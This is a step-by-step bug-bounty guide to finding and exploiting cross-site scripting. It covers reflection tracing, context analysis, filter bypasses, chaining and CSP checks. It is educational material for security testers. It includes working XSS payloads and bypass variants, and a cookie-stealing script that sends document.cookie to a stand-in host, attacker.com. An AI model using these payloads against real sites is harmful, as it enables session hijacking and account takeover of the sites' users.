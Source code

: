 # Cross-Site Scripting (XSS)

[Relative Cheat Sheet](./xss-cheat.md)

## Step-by-Step Guide for Testing and Exploiting Cross-Site Scripting (XSS) Vulnerabilities

### 1. Understand XSS and Its Types
   - **Explanation**: Cross-site scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. The injected script runs in the context of the victim's browser, potentially stealing sensitive data, defacing websites, or performing actions on behalf of the user. There are three main types: reflected XSS (script from current request reflected in response), stored XSS (script stored on server and served to users), and DOM-based XSS (script executed via client-side JavaScript modifying the DOM).
   - **Why It's Done**: Grasping the types helps tailor testing to specific scenarios, such as immediate reflection in search results (reflected) or persistent injection in comments (stored). This step sets the foundation for effective payload crafting and exploitation.
   - **Example**: In reflected XSS, a search query like `<script>alert('XSS')</script>` might be echoed back in the results page, executing the alert for the user.

### 2. Identify Entry Points for User Input
   - **Explanation**: Locate all places where user input is accepted and potentially rendered back, such as URL parameters, form fields, headers, or even cookies. Use browser developer tools or proxies like Burp Suite to map these inputs.
   - **Why It's Done**: XSS requires an injection point where unsanitized input is outputted. Identifying these ensures comprehensive testing and prevents missing subtle vulnerabilities.
   - **Example**: A URL like `https://example.com/search?q=user_input` where `q` is reflected in the page without escaping.

### 3. Submit Unique Test Input to Track Reflection
   - **Explanation**: Input a unique string (e.g., `xss-test-string-123`) into each entry point and monitor where it appears in the response using tools like search functions in DevTools or Burp.
   - **Why It's Done**: This traces how input flows through the application, revealing reflection points for potential injection. It helps distinguish between safe (escaped) and vulnerable (unescaped) outputs.
   - **Example**: Submit the string in a form; if it appears unescaped in the HTML response, it's a candidate for XSS.

### 4. Analyze the Context of Reflection
   - **Explanation**: Determine the context where the input is reflected—HTML body, attribute, JavaScript string, etc.—as this affects the required payload structure.
   - **Why It's Done**: Different contexts need specific escape sequences or syntax to break out and execute code. For instance, JavaScript contexts require breaking out of strings.
   - **Example**: If input is in `<div>user_input</div>`, it's HTML context; if in `var data = "user_input";`, it's JavaScript context.

### 5. Craft and Test Proof-of-Concept (PoC) Payloads
   - **Explanation**: Start with simple payloads like `<script>alert(1)</script>` for HTML contexts or `';alert(1);//` for JavaScript. Use `print()` if `alert` is blocked in newer browsers.
   - **Why It's Done**: A PoC confirms execution capability without harm, validating the vulnerability before escalation.
   - **Example**: For reflected XSS: `https://example.com/search?q=<script>alert(1)</script>`. If an alert pops, it's vulnerable.

### 6. Differentiate Between Reflected, Stored, and DOM-Based XSS
   - **Explanation**: For reflected, check if payload executes only on submission; for stored, reload the page or visit affected areas; for DOM-based, inspect client-side JS for unsafe sinks like `innerHTML`.
   - **Why It's Done**: Each type has different persistence and impact—stored affects multiple users, DOM-based is client-side only.
   - **Example**: Stored XSS in a comment: Submit payload, view comment section to see execution.

### 7. Test for Filter Bypasses
   - **Explanation**: If basic payloads fail, vary case (`<ScRiPt>`), use alternative tags (`<img src=x onerror=alert(1)>`), or encode (`<script>alert&#40;1&#41;</script>`).
   - **Why It's Done**: Applications often have WAFs or filters blocking common payloads; bypasses uncover hidden vulnerabilities.
   - **Example**: If `<script>` is blocked, use `<svg onload=alert(1)>`.

### 8. Exploit the Vulnerability for Impact
   - **Explanation**: Escalate from PoC to real impact, like stealing cookies (`document.cookie` sent to attacker server) or defacing (`document.body.innerHTML = 'Hacked';`).
   - **Why It's Done**: Demonstrates severity for bounty reports, such as session hijacking or phishing.
   - **Example**: `<script>new Image().src='https://attacker.com/?c='+document.cookie;</script>` to exfiltrate cookies.

### 9. Chain with Other Vulnerabilities
   - **Explanation**: Combine XSS with CSRF or session fixation for amplified attacks, e.g., using XSS to forge requests.
   - **Why It's Done**: Real-world exploits often chain vulns for greater impact, like persistent access.
   - **Example**: Stored XSS injecting CSRF payload to change user email.

### 10. Assess Prevention Measures
   - **Explanation**: Verify if the app uses Content Security Policy (CSP), input sanitization, or output encoding to block XSS.
   - **Why It's Done**: To recommend fixes in reports, like escaping user input or implementing CSP headers.
   - **Example**: CSP `default-src 'self'` blocks inline scripts unless nonce used.

This guide, based on PortSwigger Web Security Academy, equips hunters to systematically find and report XSS for bounties. Always test ethically and report responsibly.